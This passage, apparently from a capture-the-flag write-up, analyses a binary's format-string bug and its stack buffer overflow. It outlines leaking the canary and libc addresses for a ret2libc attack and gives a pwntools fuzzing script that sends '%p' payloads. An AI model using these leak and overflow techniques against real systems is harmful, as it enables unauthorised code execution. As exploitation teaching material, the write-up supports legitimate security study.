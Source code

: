 This is where all the bugs lie. The first obvious bug is here:

```c
read(0,&local_78,0x10);
printf("\nThank you for giving feedback ");
printf((char *)&local_78);
```

`printf` is printing the address of `local_78` without a format specifier. From the `man 3` page of `printf`.

>     Code such as printf(foo); often indicates a bug, since foo  may  con‐
>     tain  a  % character.  If foo comes from untrusted user input, it may
>     contain %n, causing the printf() call to write to memory and creating
>     a security hole.

Instead of using the `%n` characters to overwrite addresses, we will use the `%p` to leak them. 

Also from the `man 3` page of `printf`:

>        p      The  void *  pointer argument is printed in hexadecimal (as if
>               by %#x or %#lx).

The second bug can be seen here:

```c
local_58 = 0;
local_50 = 0;
local_48 = 0;
local_40 = 0;
local_38 = 0;
local_30 = 0;
local_28 = 0;
local_20 = 0;
<SNIP>
read(0,&local_58,0x5e);
```

This function reads `0x5e` bytes (94 in decimal) to a 64-bytes long buffer (`local_58`), thus leading to a buffer overflow. These 2 bugs are more than enough to gain shell to the system.

#### Exploitation Path

What we need to know-find:

- `Overflow offset` 
- `Canary`
- `libc` 

After we find them, we simply perform a `ret2libc` with `one_gadget`. To find these addresses, I have made a simple fuzzing function in `python`.

We know that:

- `libc` addresses start with `0x7f`
- `Canary` is an 8 byte value ending with `00`.

```python
def fuzzer():
  context.log_level = 'critical'
  for i in range (50):
    r = process(fname)
    r.sendlineafter('>> ', '9')
    r.sendlineafter('>> ', 'y')
    r.sendlineafter('name: ', f'%{i}$p')
    r.recvuntil('giving feedback ')
    leak = r.recvline()[:-1].decode()
    if len(leak) == 14 and '0x7f' in leak:
      print(f'[{i}] Possible LIBC: {leak}')
    elif len(leak) == 18 and '00' in leak:
      print(f'[{i}] Possible CANARY: {leak}')
```